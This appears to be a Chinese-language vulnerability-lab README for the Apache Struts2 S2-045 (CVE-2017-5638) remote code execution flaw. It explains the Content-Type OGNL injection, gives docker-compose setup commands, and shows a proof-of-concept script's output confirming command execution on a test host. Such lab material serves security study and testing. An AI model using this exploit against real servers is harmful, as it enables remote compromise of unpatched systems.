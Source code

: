 ##S2-045（CVE-2017-5638）

struts2 045 
受影响：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

RCE远程代码执行漏洞，基于Jakarta Multipart解析器进行文件上传时，利用漏洞可进行远程代码执行。
由于当content-type中出现”multipart/form_data”时，会被认为有文件上传，从而调用struts2默认的上传文件组件Jakarta，通过组件漏洞载入OGNL代码并执行，从而达到远程调用的目的。
## 测试环境搭建

```
docker-compose build
docker-compose up -d
```


##POC
```
执行测试
 python s2-045-poc.py http://10.160.11.191:8080/
[vulnerability exist] http://10.160.11.191:8080/
struts2-045
Debian GNU/Linux 9 \n \l

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```
* 参考：
Apache Struts是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级Java Web应用的开源MVC框架。
https://struts.apache.org/docs/security-bulletins.html
http://www.freebuf.com/vuls/128668.html


## 免责申明：文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负